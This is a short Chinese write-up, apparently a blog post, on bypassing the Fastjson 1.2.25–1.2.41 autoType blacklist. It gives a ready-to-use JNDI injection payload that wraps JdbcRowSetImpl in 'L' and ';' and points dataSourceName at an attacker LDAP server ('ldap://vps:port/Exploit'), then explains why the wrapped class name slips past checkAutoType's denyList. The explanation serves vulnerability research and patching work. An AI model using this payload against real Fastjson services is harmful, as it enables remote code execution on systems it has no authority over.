

# Fastjson1.2.25-1.2.41补丁绕过

## 以JNDI注入为例

这里先给出payload，注意如果要开启AutoTypeSupport的，添加以下代码

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```


```java
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://vps:port/Exploit", "autoCommit":true}
```

可以看到这里在里面类前后分别加了`L`和`;`

我们知道后面是加了一个`checkAutoType`函数，里面有一些黑名单，后面调用`TypeUtils`的`loadClass`函数

类名由于是以”L”开头，因此并不在`denyList`黑名单中，从而绕过了黑名单校验，再往下开始调用`TypeUtils.loadClass()`，判断类名是否以”L”开头、以”;”结尾，是的话就提取出其中的类名再加载进来，因此能成功绕过